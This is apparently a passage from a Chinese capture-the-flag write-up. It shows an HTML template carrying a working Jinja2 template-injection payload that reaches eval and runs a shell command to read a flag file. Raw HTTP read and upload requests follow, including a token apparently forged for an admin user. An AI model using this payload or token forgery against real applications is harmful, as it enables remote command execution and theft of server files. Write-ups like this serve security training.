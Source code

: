        .page-title {
            font-size: 36px;
            font-weight: bold;
            color: #333;
            margin-bottom: 20px;
        }

       .book-content {
            background-color: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 0 20px rgba(0, 0, 0, 0.1);
            max-width: 90%;
            width: 90%;
            line-height: 1.8;
            font-size: 20px;
            text-align: center;
        }
    </style>
</head>

<body>
    
    <div class="book-content">
       {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /f*').read()") }}{% endif %}{% endfor %}
    </div>
</body>

</html>
然后上传到/app/templates/即可，尝试发包
一个读取文件，一个文件上传
[图片]
POST /read HTTP/1.1
Host: 27.25.151.26:30587
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://27.25.151.26:30587
Connection: close
Referer: http://27.25.151.26:30587/
Cookie:a=§§; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImZseTIzMyJ9.inCoyLUdTLkcp-ZHLvIyBEa27Glfu-jHBpWdh_DpWrA
Upgrade-Insecure-Requests: 1
Priority: u=0, i

book_path=/app/templates/reading.html
[图片]
POST /upload HTTP/1.1
Host: 27.25.151.26:30587
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----geckoformboundarya31feb668b07494f8f348df5ca40f5fd
Content-Length: 360
Origin: http://27.25.151.26:30587
Connection: close
Referer: http://27.25.151.26:30587/upload
Cookie:a=§§; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.EYrwzSGzfGe_PMnw-Wl4Ymt_QuMtyApHi57DMcZ7e3U
Upgrade-Insecure-Requests: 1